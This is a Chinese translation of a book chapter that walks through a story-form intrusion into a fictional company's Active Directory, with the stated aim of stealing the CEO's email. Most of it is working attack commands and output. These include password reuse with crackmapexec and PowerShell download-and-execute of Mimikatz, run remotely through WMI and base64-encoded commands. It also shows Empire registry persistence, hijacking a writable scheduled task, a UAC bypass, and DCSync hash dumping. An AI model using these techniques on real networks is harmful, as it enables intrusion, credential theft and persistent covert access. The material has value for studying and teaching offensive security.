



# 第四章、内网漫游

> 只有勇敢的老鼠才敢在猫眼前搭窝 -- _Earl Derr Biggers_

事情已经越来越有趣了。到目前为止，我们已经拥有以下资源:

* 控制了一台蓝区（即DMZ区）的Linux服务器
* 在蓝区不同 Windows 服务器上掌握了6个具备管理员权限的账号
* 建立了一条虚拟隧道可以访问蓝区内部的机器

接下来要做的事情，其实和之前大同小异，无非是端口发现、漏洞利用、导出密码，如是往复。

但是，牢记我们的主要目标：获取CEO的邮箱访问权限，窃取关键数据，当然还要尽可能隐藏攻击痕迹。

## 4.1 活动目录

为了顺利学习本书的剩下内容，有必要了解活动目录（Active Directory，以下简称AD） 的一些基本知识，本节将介绍 AD 的基础概念。如果你已经非常了解 AD，可以直接跳过本节。

企业环境中的 Windows 计算机通常是互联的，以便于共享资源和公共配置。这种互联就基于 Windows AD。

AD 的根节点称为森林，森林中的所有域（机器组和用户组）共享相似的配置\[65\]。每个域遵循着各自的策略（如密码强度，更新计划，用户帐户，计算机等）。

域控是一台控制和管理该域的Windows服务器。所有资源依赖于这个中心节点，以制定决策或读取新配置。网络越大，为了扩展性能，域控就越多。

Windows 定义了两类用户可以连接到域：

* 域控服务器的本地用户
* 哈希存储在域控上的域用户

因此，域用户没有限定在单个工作站，而是可以连接到域中的所有工作站（除非被禁止这样做）。但是，要在服务器上进行远程连接，用户需要该服务器上的远程桌面权限或管理员权限（本地或通过域）。

用户既可以隶属于指定服务器的本地组，也可以隶属于域控群组（通常在域控服务器配置）。

域上有三个群组，对域及域内所有资源拥有完全控制权：

* Domain admin group（域管理员组）
* Enterprise admin group（企业管理员组）
* Domain Administrators（域管理员）

若能控制上述组的任一账户，那就拿下了整个公司的控制权\[66\]！

回过头看我们当前的状态，我们在公共DMZ区中入侵的Windows主机并没有连接到域上，不属于正式的内网，因为：域是一种内部资源，不会管理或者包含面向公众的互联网资源。在理想的情况下，会创建一个公共域（或Forest）来管理上述主机。当然，内部域和“外部”域之间不应存在信任关系。 SPH 选择了一个更简单的做法：将所有蓝区（即DMZ区）的服务器从内部域中排除，并使用单个管理员密码进行管理。

接下来的各小节就是从“外围” Windows服务器渗透到域主机，并在域中实现提权。

## 4.2 我们要去哪？

我们知道蓝区位于私有网络192.168.1.0/24上，但是绿区（即内网）的地址呢？我们可以盲猜其范围，不过没必要。

大多数情况下，DMZ服务器都会与个别内网主机通信交互，比如数据库，文件服务器，工作站等。这就是我们所需要的！

在我们控制的任一台服务器上，运行一个简单的netstat命令来列出所有已建立的IP连接。

```text

FrontGun$ proxychains crackmapexec -u Administrator - p M4ster_@dmin_123 -d WORKGROUP 192.168.1.70 - x "netstat -ano | findstr ESTABLISHED"
```


IP 10.10.20.118 显然不属于DMZ区。让我们试一试这个IP段。作为一个谨慎的黑客，我们先假设这是一个C段网络，后面再根据情况调整假设条件。

## 4.3 密码重用

我们的密码字典已经够用了，因此不需要在此IP段上寻找新的漏洞。毕竟，我们已经可以模拟普通用户登录了，为啥还要寻找复杂的漏洞？我们的策略是在所有Windows计算机上使用已经获得的凭据进行简单身份验证。

这不是典型的暴力破解攻击（一个帐户，多个密码），而是“成对的暴力破解” \[67\]：在每台计算机上，我们尝试使用相同的帐户/密码。这样可以避免帐户被锁定，也可以避免触发任何检测规则\[68\]。

我们的想法是找到一台已经入域的服务器，且该服务器的本地用户刚好在我们密码字典中。一个C段有253个IP，只要其中一个满足，就可以再次执行Mimikatz获取更多密码。但是这次，我们可能会获得域帐户-甚至是特权域帐户。

首先，为缩小目标机的范围，我们启动nmap去扫描开放了445端口的目标主机。经验表明3389端口很有用是，所以也添加了进来。

```text

FrontGun$ Proxychains nmap -n -p455,3389 10.10.20.0/24
Starting Nmap 7.00 ( https://nmap.org ) at 2016-12-26 22:56 CET
    Nmap scan report for 10.10.20.27 
    445/tcp open    microsoft-ds 
    3389/tcp closed ms-wbt-server

    Nmap scan report for 10.10.20.90 
    445/tcp open    microsoft-ds 
    3389/tcp filtered ms-wbt-server

    Nmap scan report for 10.10.20.97 
    445/tcp open    microsoft-ds 
    3389/tcp closed ms-wbt-server

    Nmap scan report for 10.10.20.118 
    445/tcp open microsoft-ds 
    3389/tcp open ms-wbt-server

    Nmap scan report for 10.10.20.210 
    445/tcp open    microsoft-ds 
    3389/tcp filtered ms-wbt-server

    Nmap scan report for 10.10.20.254 
    445/tcp filtered microsoft-ds 
    3389/tcp filtered ms-wbt-server
```

考虑到我们正在从蓝区访问这些服务器，可以预见到一些端口会被过滤掉。

在我们拿到的所有帐户中，**svc\_mnt** 看起来最有希望。它看起来像是一个用于管理某种应用程序的服务帐户。因此，相比其他账户，它在其他服务器上被创建的可能性更高。我们使用该帐户启动 CME：

```text

FrontGun$ proxychains crackmapexec -u svc_mnt -p Hello5\!981 -d WORKGROUP 10.10.20.27 10.10.20.90 10.10.20.97 10.10.20.118 10.10.20.210
```


`提示：！在bash中有特殊含义，需转义，尤其是放在数字前时。因此，此处密码字段为\！。`

仅有几台服务器存在**svc\_mnt**账号，这个结果可不太妙。此外，由于用户访问控制 （UAC），我们无法远程执行 Mimikatz.

UAC 是 Windows vista 中引入的一个功能，在执行特权操作\(软件安装等\)之前，会弹出一个对话框来提示用户。因此，即使管理员也不能在系统上远程执行特权命令。但默认的管理员帐户在默认状况下不受UAC的约束\[69\]，这就是为什么它以前没有给我们带来太多麻烦的原因。

幸运的是，其中一台存在**svc\_mnt**账号的主机10.10.20.118似乎开放了RDP 端口 （3389）。如果我们能在远程服务器上打开图形交互会话，那么 UAC 就不是问题了！

我们在Front Gun 服务器上启动 **rdesktop**（或 **mstsc**），用**svc\_mnt**帐户登录。


然后，我们编写一个小脚本，下载一个powershell版的Mimikatz，只在内存中通过IEX\(Invoke-Expression\)命令运行。

```text

$browser = New-Object System.Net.WebClient

$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredential

IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"))

Invoke-Mimikatz
```

我们打开具有管理权限的命令提示符（右键单击&gt;以管理员身份运行），然后执行脚本:

```text

10.10.20.118 > powershell -exec bypass .\letmein.ps1
```

耐心地等待几秒钟，但**DowanloadString**函数执行超时了，看起来 10.10.20.0/24 网段的主机无法访问互联网—至少在没有通过需要有效域凭据的代理的情况下不能访问互联网，而我们还没有……

为了绕过这个限制，我们直接在之前拿下的 Linux 服务器下载**Invoke-Mimikatz.ps1**文件，并启动一个简单的 HTTP 服务使其可被访问:

```text
Career# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
Career# python -m SimpleHTTPServer 443
```

我们修改 PowerShell 脚本中的 URL，再执行一次:

```text
$browser = New-Object System.Net.WebClient

IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"))

invoke-Mimikatz
```



我们现在还不是域管理员，但我希望你注意到了屏幕上弹出的本地管理员密码：**Dom\_M\_ster\_P\_ssword1**。

看来域计算机与非域计算机具有不同的本地管理员帐户。 现在，我们可以在所用拥有 administrator 账户的机器上执行Mimikatz了。执行结果可能成功，也可能失败，但是别忘了，我们并不需要全都成功，只要能找到一台具备域权限的机器就达到目的了。

先前，我们在蓝区搭建了socks 代理，然后在 Front Gun 服务器上通过 CrackMapExec 中调用 Minikatz。这一次我们直接在 10.10.20.118 服务器上执行 Minikatz。这种方式可以完全绕过防火墙的过滤规则。\(CME依赖RPC端口：135、49152到65535来远程执行Mimikatz，但在DMZ和内网之间的防火墙不太可能允许这样做。\)

使用获得的 administrator 帐户登录 RDP 会话，通过添加**-Computer** 参数，让脚本可以支持在多台计算机上执行：

```text
$browser = New-Object System.Net.WebClient

IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1")

invoke-mimikatz -Computer FRSV27,FRSV210,FRSV229,FRSV97 |out-file result.txt -Append
```

这一次，**Invoke-Mimikatz** 将使用远程 PowerShell 执行创建远程线程（端口 5985 上的 WinRM 服务），然后将结果存储在result.txt 中。


建议：当使用远程PowerShell执行时，应总是指定服务器的名称而不是IP地址\(使用nslookup\)。



如果未启用远程 PowerShell（端口 5985），我们可以使用 Windows 计算机的 WMI 命令修复它： wmic /user:administrator /password: Dom\_M@ster\_P@ssword1 /node:10.10.20.229 process call create " powershell enable-PSRemoting -force "\`



你看！我们已经拿到 60 多个密码啦。我们注意到了一个“可疑”账号**adm\_supreme**，它可能具备特殊权限。然后，我们查询"domain admins"组进一步确认： 



**adm\_supreme**确实属于"domain admins"组。搞定！


提示：查询域资源（组，用户等）时，请记住必须使用有效的域帐户。在上面的屏幕中，在执行 “net group” 命令之前，我们使用adm_supreme 帐户重新连接到10.10.20.118。



深度分析

使用 invoke-mimikatz 特性在多台机器上执行代码实际上不太稳定。如果管理员没有正确配置PowerShell，要想使其正常运行需要一点技巧。其中一种方法是使用 WMI，这也是一个在服务器上执行远程命令的有趣工具。

我的想法是使用一句话 PowerShell 命令，调用 Mimikatz 然后将内容导出到本地文件。我们使用 WMI 远程执行这条命令，等待几秒钟，然后在我们的计算机上查找导出文件。

我们一步一步分析如何来实现：

1. 稍微更改以前的代码，将目标的 IP 地址包含在输出的文件名中:
```ps
$browser = New-Object System.Net.WebClient
IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"))
$machine_name = (get-netadapter | get-netipaddress | ? addressfamily -eq "IPv4").ipaddress 
invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"
```

2. 将所有的换行符更改为“;”，然后将此脚本放入 PowerShell 脚本的变量中：
```ps
PS > $command = '$browser = New-Object System.Net.WebClient;IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"));$machine_name = (get-netadapter | get- netipaddress | ? addressfamily -eq "IPv4").ipaddress;invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"'
```

3. 对这个变量进行base64编码，并定义要定位的机器：
```ps
PS> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS> $encodedCommand = [Convert]::ToBase64String($bytes)
PS> $PC_IP = @("10.10.20.229", "10.10.20.97")
```

4. 然后，我们准备启动 WMI 循环，该循环生成带有先前 base64 代码作为参数传递的PowerShell：
```ps
PS> invoke-wmimethod -ComputerName $X win32_process -name create -argumentlist ("powershell - encodedcommand $encodedCommand")
```

5. 最后，我们把导出的文件移到我们目标机 10.10.20.118：
```ps
PS> move-item -path "\\$X\C$\windows\temp\$X.txt" - Destination C:\users\Administrator\desktop\ -force
```

以下是完整的脚本代码，和一段附加代码，该代码段将等到远程进程结束后才检索结果:
```ps
$command = '$browser = New-Object System.Net.WebClient;IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"));$machine_name = (get-netadapter | get- netipaddress | ? addressfamily -eq "IPv4").ipaddress;invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$PC_IP = @("10.10.20.229", "10.10.20.97")

ForEach ($X in $PC_IP) {
    $proc = invoke-wmimethod -ComputerName $X win32_process -name create -argumentlist ("powershell - encodedcommand $encodedCommand")
    $proc_id = $proc.processId

    do {(Write-Host "[*] Waiting for mimi to finish on $X"), (Start-Sleep -Seconds 2)}
    until ((Get-WMIobject -Class Win32_process -Filter "ProcessId=$proc_id" -ComputerName $X | where
    {$_.ProcessId -eq $proc_id}).ProcessID -eq $null) move-item -path "\\$X\C$\windows\temp\$X.txt" -
    Destination C:\users\Administrator\desktop\ -force
    write-host "[+] Got file for $X" -foregroundcolor "green"
}
```


## 4.4 遗漏的环节

还记得我们的网络钓鱼活动吗？当我们忙着渗透服务器和域时，员工们正欣喜地打开钓鱼邮件中的Excel附件。



尽管通过前面的过程，我们已经完全控制了 SPH 网络上的所有资源，但如何通过用户终端来达到同样的效果呢？让我们一起来看看。


注意：我们切换回 Empire 框架，在该框架中，Front Gun服务器正在监听来自恶意 Excel 软件的传入连接。


随便选一台目标主机进行交互，列出有关环境的基本信息：

```shell
(Empire) > interact D1GAMGTVCUM2FWZC
(Empire: D1GAMGTVCUM2FWZC) > sysinfo
    Listener:    http://<front-gun>:80 
    Internal IP:        10.10.20.54
    Username:    SPH\mike
    Hostname:    FRPC054
    OS:    Microsoft Windows 10 Pro High Integrity:    0
    Process Name:        powershell Process ID:    3404
    PSVersion:    5
(Empire: D1GAMGTVCUM2FWZC) > rename mike 
(Empire: mike) >
```

反弹 shell 的宿主是正在后台运行的 Powershell 进程。这样即便用户关闭了Excel文档，我们仍能维持对该计算机的访问权。当然，用户只要一重启，我们的代理就会被干掉。因此，在继续之前，我们需要采取一些“后门加固”措施。

在每次重新登录时，Windows 都会查找一些注册表项，并直接运行对应的程序。我们将从中选择一个注册表键值来存储一段 PowerShell 脚本，这样 Mike 每次重新启动电脑后都会自动回连。

```shell
(Empire:mike)> usemodule persistence/userland/registry
(Empire : persistence/userland/registry) > set Listener test
(Empire : persistence/userland/registry) > run
```

这个特殊的模块使用 RUN 键来实现持久化（HKCU\Software\Microsoft\Windows\CurrentVersion\Run），这种方法已经被无数恶意软件玩烂了。这远不是我们所能想出的最隐秘的方法，但鉴于当前在工作站上的权限不足，暂时还没法使用一些“风骚”的方法。

提示：只需更改模块中的目标选项“set target XXXXX”，就可以在其他所有代理上直接执行此模块。


现在，我们已经涵盖了这一点，我们希望锁定一些在域内看起来具备管理员权限的用户，或者至少具有对某些服务器的访问权。一个典型的目标就是IT支持部门，我们通过 AD 列出该部门的所有员工：

```
(Empire: mike) > usemodule situational_awareness/network/powerview/get_user
(Empire: mike) > set filter department=IT* 
(Empire: mike) > run
Job started: Debug32_45g1z
company    : SPH
department    : IT support
displayname    : Holly 
title : intern IT
lastlogon : 12/31/2016 9:05:47 AM 
[...]
company    : SPH
department    : IT support
displayname    : John P 
title : IT manager
lastlogon : 12/31/2016 8:05:47 AM 
[...]
```

通过与运行恶意附件的人员列表进行比对，用户 John 进入了我们的视野\[70\]:

```text
(Empire:) > interact H3PBLVYYS3SYNBMA
(Empire H3PBLVYYS3SYNBMA :) > rename john
(Empire: john) > shell net localgroup administrators
    Alias name    administrators
    Members

    ------------------------------------------------------
    adm_wkt
    Administrator
```

尽管 John 是 IT 经理，但他的工作站上没有管理员权限。没事儿，这样才更有挑战！

接下来，我们有多种思路：找漏洞、找误配置服务，文件或注册表项中的密码等。

在撰写本书时，**MS016-32** \[71\]漏洞的利用非常火。触发代码是用PowerShell编写的，非常适合我们当前的情况。拥有公开漏洞利用程序是很爽，但我们不可能总有这么好的运气。所以，需要寻找一种更为通用的方法。

我们运行**PowerUp**模块，该模块在 Windows 上执行常规检查，识别出计算机上提权的可行路径：

```text
(Empire: john) > usemodule privesc/powerup/allchecks 
(Empire: privesc/powerup/allchecks) > run
(Empire: privesc/powerup/allchecks) >
Job started: Debug32_m71k0

[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[*] Checking service permissions...
[*] Use 'Write-ServiceEXE -ServiceName SVC' or 'Write-ServiceEXECMD' to abuse any binaries 
[*] Checking for unattended install files...
[*] Checking for encrypted web.config strings... 
[…]
```

没有错误配置的服务，也没有可被劫持的DLL或纯文本密码。让我们看一下计划任务列表：

```text
(Empire: john) > shell schtasks /query /fo LIST /v 
(Empire: john) >
    Folder: \
    HostName:    FRPC073
    TaskName:    \Chance screensaver
    Next Run Time:        N/A 
    Status:    Ready
    Logon Mode:        Interactive/Background 
    Last Run Time:        1/15/2017 1:58:22 PM 
    Author:        SPH\adm_supreme
    Task To Run:    C:\Apps\screensaver\launcher.bat 
    Comment:    Change screensaver 
    Scheduled Task State:        Enabled
    Run As User:    Users
    Schedule Type:    At logon time
```
有点意思，管理员设置了定时任务，在用户每次登陆时更新屏幕保护程序。这是一个简单的“launcher.bat”脚本，位于“c: apps\screensaver\”目录。让我们看看该文件夹的访问权限列表：

```shell
(Empire: john) > shell icacls c:\apps\screensaver 
(Empire: john) >
c:\apps\screensaver BUILTIN\Administrators:(F) 
    CREATOR OWNER:(OI)(CI)(IO)(F) 
    BUILTIN\Users:(OI)(CI)(F) 
    BUILTIN\Users:(I)(CI)(WD) 
    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(F) 
Successfully processed 1 files; Failed processing 0 files
```

太好了！所有用户对目录“ C:\Apps\screensaver \”都具备完全控制权限（“ F”权限）。我们可以通过将“launcher.bat”文件替换为自己的脚本，来达到劫持计划任务的目的。例如，编写一个脚本，运行 Mimikatz 并将密码转储到本地文件（c:\users\john\appdata \local\temp\pass_file.txt）。

跟之前一样，将这段代码用base64编码，具体步骤这里不再赘述：

```text
PS> $command = '$browser = New-Object System.Net.WebClient;$browser.Proxy.Credentials =[System.Net.CredentialCache]::DefaultNetworkCredential;IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"));invoke-mimikatz | out-file c:\users\john\appdata\local\temp\pass_file.txt'

PS>    $bytes    = [System.Text.Encoding]::Unicode.GetBytes($command)
PS>    $encodedCommand    = [Convert]::ToBase64String($bytes)
PS> write-host $encodedCommand JABiAHIAbwB3AHMAZQByACAAPQAgAE4AZQB3A
```

以下是脚本“ launcher_me.bat”的内容，该脚本最终在 John 的终端上运行： `Powershell.exe -NonI -W Hidden -enc JABiAHIAbwB3AHMAZQByACAAPQAgAE4AZQB3A`

通过 Empire 将该脚本上传到目标文件夹：

```shell
(Empire: john) > shell cd c:\apps\screensaver\
(Empire: john) > upload /root/launch_me.bat
```

最后，我们将脚本伪装成新的launcher.bat。

```text
(Empire: john) > shell move launcher.bat launcher_old.bat
(Empire: john) > shell move launcher_me.bat launcher.bat
```

接下来就是等待了；可能时几个小时，也可能是一两天。最终，当 John 再次登录\[72\]时，就能拿到我们要的文件了（当然，还要清理一些无关数据）：

```shell
(Empire: john2) > shell download c:\users\john\appdata\local\temp\pass_file.txt 
(Empire: john2) > shell del launcher.bat 
(Empire: john2) > shell move launcher_old.bat launcher.bat

FrontGun$ cat pass_file.txt

Hostname: FRPC073.sph.corp / -
.#####.    mimikatz 2.1 (x64) built on Mar 31 2016 16:45:32
.## ^ ##. "A La Vie, A L'Amour" ## / \ ## /* * *
##    \    /    ##    Benjamin    DELPY    `gentilkiwi`    ( benjamin@gentilkiwi.com )
'## v ##'    http://blog.gentilkiwi.com/mimikatz (oe.eo)
'#####'    with 18 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 11506673 (00000000:00af93f1) Session    : Interactive from 2
User Name    : john
Domain    : SPH
Logon Server    : FRSV073
Logon Time    : 16/01/2017 8:40:50 AM
SID    : S-1-5-21-2376009117-2296651833- 4279148973-1124
[…]

kerberos :
    *    Username : john
    *    Domain    : SPH.CORP
    *    Password : JP15XI$ 
    ssp :
    credman :
    […]

    […] 
kerberos :
    * Username : adm_supreme
    *    Domain    : SPH.CORP
    * Password : Charvel097*
    ssp : 
    credman :
    […]
```

不错！看来计划任务确实以 adm_supreme 用户权限执行了：
 

使用新获得的凭据在工作站上创建一个新的管理会话。

```
(Empire:) > usemodule management/spawnas
(Empire:    management/spawnas)    >    set    UserName adm_supreme
(Empire: management/spawnas) > set Domain SPH 
(Empire:    management/spawnas)    >    set    Password Charvel097*
(Empire: management/spawnas) > set Agent john (Empire: management/spawnas) > run
Launcher bat written to C:\Users\Public\debug.bat


Handles NPM(K)    PM(K)    WWS(K) VM(M)    CPU(s)
Id SI ProcessName
------- ------    -----    ----- -----    ------    --    --  --
6 4    1380 236 ...63    0.00    5404 2 cmd
```


新的 adm_supreme 会话在工作站上依然权限受限（UAC 还是会弹出）。如果想执行提权操作，例如设置更隐蔽的持久化方法，监视 John 等，还需要有更高的权限来绕过UAC：

```shell
(Empire: admSupreme) > usemodule privesc/bypassuac_eventvwr
(Empire: privesc/bypassuac_eventvwr) > set Listener test
(Empire: privesc/bypassuac_eventvwr) > run
Job started: Debug32_23tc3
```


adm_supreme 用户名前的小星星表明提权成功。
在我们亲爱的adm\_supreme的用户名前面的小星星意味着它是一个提升的会话。我们可以使用此会话在工作站上设置持久化和其他特权操作。

## 4.5 更多密码

总的来说，我们拿下了一个域管理员帐户，这已经足以造成严重破坏了。但是，如果该管理员更改了密码，会发生什么呢？根据我们已经掌握的访问权限，能否在尽量隐蔽的前提下获取到更多密码呢？

答案就在 NTDS.DIT 文件中：它是 AD 的数据库，存储了配置方案、资源定义以及所有用户密码的哈希值，它会在每个域控制器上存储和复制。

导出和分析该文件的过程非常慢。在实际攻击中，我们只需要拿到几个特定用户的密码。通过利用AD的复制机制缺陷可以拿到这些哈希值。预控可以交换用户的哈希值，以相互之间委派身份验证。通过伪装成预控， Mimikatz 可以请求任意用户的密码哈希值。

下面的命令会请求域管理员的密码哈希值：

```
PS> $browser = New-Object System.Net.WebClient
PS> IEX($browser.DownloadString("http://192.168.1.90:443/Mimikatz.ps1"))
PS> invoke-mimikatz -Command '"lsadump::dcsync/domain:sph.corp /user:administrator"'
```


使用此帐号，我们将不再被UAC束缚!对每个看起来有价值的的域帐户都执行一次该命令，拿到哈希值，从而可以通过 pass the hash 攻击来冒充这些用户。

提示:一种有趣的持久化技术是生成黄金票据\(Kerberos票据，有效期为10年\)。查看:[http://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos。](http://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos。)

> 翻译：Regina9Li 2019/10/27
> 校对：xncoder 2019/11/25

